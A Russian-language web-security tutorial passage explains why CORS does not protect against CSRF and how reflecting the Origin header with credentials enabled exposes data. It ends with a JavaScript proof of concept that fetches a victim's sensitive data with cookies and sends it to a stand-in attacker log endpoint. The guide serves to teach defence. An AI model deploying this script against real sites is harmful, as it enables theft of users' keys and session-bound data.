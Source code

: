 ### Защищает ли CORS от CSRF?

CORS не обеспечивает защиту от атак подделки межсайтовых запросов (CSRF), это распространенное заблуждение.

CORS - это контролируемое ослабление политики same-origin, поэтому плохо настроенный CORS может фактически увеличить вероятность атак CSRF или усугубить их последствия.

Существуют различные способы проведения CSRF-атак без использования CORS, включая простые HTML-формы и междоменные включения ресурсов.

## Уязвимости, возникающие из-за мисконфигов CORS

Многие современные веб-сайты используют CORS для обеспечения доступа с поддоменов и доверенных третьих лиц. Их реализация CORS может содержать ошибки или быть чрезмерно мягкой, чтобы гарантировать, что все работает, и это может привести к уязвимостям

### Генерируемый сервером заголовок ACAO из указанного клиентом заголовка Origin

>ACAO - Access-Control-Allow-Origin :^)

Некоторые приложения должны предоставлять доступ к ряду других доменов. Ведение списка разрешенных доменов требует постоянных усилий, а любые ошибки могут привести к нарушению функциональности. Поэтому некоторые приложения идут по простому пути, фактически разрешая доступ из любого другого домена

Одним из способов сделать это является чтение заголовка Origin из запросов и включение заголовка ответа, в котором говорится, что запрашиваемый источник разрешен. Например, рассмотрим приложение, которое получает следующий запрос:

```http
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...
```

Затем оно отвечает следующим образом:

```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
...
```

В этих заголовках указано, что доступ разрешен из запрашивающего домена (`malicious-website.com`) и что cross-origin запросы могут включать куки (`Access-Control-Allow-Credentials: true`) и поэтому будут обрабатываться в сессии

Поскольку приложение отражает произвольное происхождение в заголовке `Access-Control-Allow-Origin`, это означает, что абсолютно любой домен может получить доступ к ресурсам уязвимого домена. Если ответ содержит какую-либо конфиденциальную информацию, например, ключ API или CSRF-токен, вы можете получить ее, разместив на своем сайте следующий сценарий:

```js
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
   location='/malicious-website.com/log?key='+this.responseText;
};
```

